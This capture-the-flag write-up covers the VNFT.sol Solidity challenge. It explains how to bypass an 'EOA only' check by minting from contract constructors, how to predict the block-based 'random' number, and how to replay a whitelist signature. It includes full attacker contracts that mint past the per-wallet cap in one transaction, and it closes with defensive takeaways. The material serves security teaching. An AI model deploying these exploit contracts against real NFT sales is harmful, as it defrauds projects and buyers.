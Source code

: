 # Solidity challenge VNFT.sol

## The objective

VNFT.sol is a ERC721 contract. The sale is capped at 2 tokens per wallet -- the goal is to exploit the sale by minting more than the allowed 2 NFTs per wallet, all in a single transaction.

## Overview

There are two functions to mint NFTs:

- function imFeelingLucky(address to, uint256 qty, uint256 number)
- function whitelistMint(address to, uint256 qty, bytes32 hash, bytes memory signature)

Both functions expect an address to mint and a quantity. `imFeelingLucky` additionally expects a number, while `whitelistMint` expects a hash and a signature.

Inspecting `imFeelingLucky` shows that it calculates a random number based on the blockhash, the block timestamp and the totalSupply:

```solidity
uint256 randomNumber = uint256(
    keccak256(
        abi.encodePacked(
            blockhash(block.number - 1),
            block.timestamp,
            totalSupply
        )
    )
) % 100;

require(randomNumber == number, "Better luck next time!");
```

The modulo division sets the range of the random number from 0 to 99. The random number is compared with function input `number`, if its the same, it will allow minting tokens.

Function `whitelistMint` only allows whitelisted wallets to mint, it does that by requiring a signature signed by the owner of the contract:

```solidity
require(
    recoverSigner(hash, signature) == owner(),
    "Address is not allowlisted"
);
```

## Vulnerability

Both functions have a vulnerability.

### imFeelingLucky

```
require((msg.sender).code.length == 0, "Only EOA allowed");
```

Above require statement ensures that only EOAs (externally owned accounts) are allowed to mint by checking that the code length of `msg.sender` is equal to zero. You can circumvent that check by including the necessary code in the constructor of your contract -- the code size of a smart contract at creation (so when the code in the constructor is executed) **is zero**:

```solidity
contract Attacker {
  constructor(address EOA, address vnft) {
    uint256 currentId = IVNFT(vnft).totalSupply();

    uint256 randomNumber = uint256(
      keccak256(
        abi.encodePacked(
          blockhash(block.number - 1),
          block.timestamp,
          currentId
        )
      )
    ) % 100;

    IVNFT(vnft).imFeelingLucky(address(this), 2, randomNumber);
    IVNFT(vnft).safeTransferFrom(address(this), EOA, currentId++);
    IVNFT(vnft).safeTransferFrom(address(this), EOA, currentId);

    selfdestruct(payable(EOA));
  }

  function onERC721Received(
    address,
    address,
    uint256,
    bytes calldata
  ) external virtual returns (bytes4) {
    return ERC721TokenReceiver.onERC721Received.selector;
  }
}

```

Above contract calculates the random number, mints 2 NFTs via `imFeelingLucky` and sends them to specified address. Function `onERC721Received` is needed because contract `VNFT.sol` uses `safeMint` for minting tokens.

### whitelistMint

As described, only whitelisted wallets can successfully mint by requiring a hash + signature signed by the owner. Usually you keep track of used signatures by saving them in an array and only allowing new signatures to be processed:

```solidity
require(!usedSignatures[signature], "Signature already used!");
...
usedSignatures[signature] = true;
```

This check is missing, allowing a signature replay attack

```solidity
constructor(
  address EOA,
  address vnft,
  bytes32 hash,
  bytes memory signature
) {
  uint256 currentId = IVNFT(vnft).totalSupply();

  IVNFT(vnft).whitelistMint(address(this), 2, hash, signature);
  IVNFT(vnft).safeTransferFrom(address(this), EOA, currentId++);
  IVNFT(vnft).safeTransferFrom(address(this), EOA, currentId);

  selfdestruct(payable(EOA));
}

```

Simply use a prior used signature to circumvent the whitelist check.

### Exploit in a single transaction

To exploit the sale by minting more than the 2 allowed tokens in a single transaction you have to write an attacker contract, which deploys several minting contracts, executing your exploit logic.

```solidity
function attack(address EOA) public {
  // deploy 5 smart contracts, each one is minting 2 nfts and sending those to address EOA
  for (uint256 i; i < 5; i++) new Attacker(EOA, address(vnft));

  // check if 10 NFTs were minted, if not, something went wrong
  require(vnft.balanceOf(EOA) == 10);
}

```

## Takeaways

- `require((msg.sender).code.length == 0` wont stop smart contracts from calling and executing a function, since code length during contract creation is zero
- Random numbers arent really random, since everything on the EVM is deterministic
- Keep track of used signatures to prevent signature replay attacks

## Further information

- [VNFT.t.sol](test/VNFT.t.sol) for a test script exploiting the contract
- [Implementation](https://goerli.etherscan.io/address/0x85811aa24f3f75c8cfd07aa3fab7e6d20e3b29f7#code) from adriro
- [Implementation](https://github.com/JonathanAmenechi/ethernaut-challenges/blob/main/src/Exploit9.sol) from jon_amen

This exploit is inspired from the adidas NFT mint, which got exploited in a similiar way, where one user minted 328 more tokens than allowed, see [this](https://cryptonews.com/news/investor-purchases-330-adidas-nfts-using-smart-contract-328-more-than-cap.htm) link for more info.
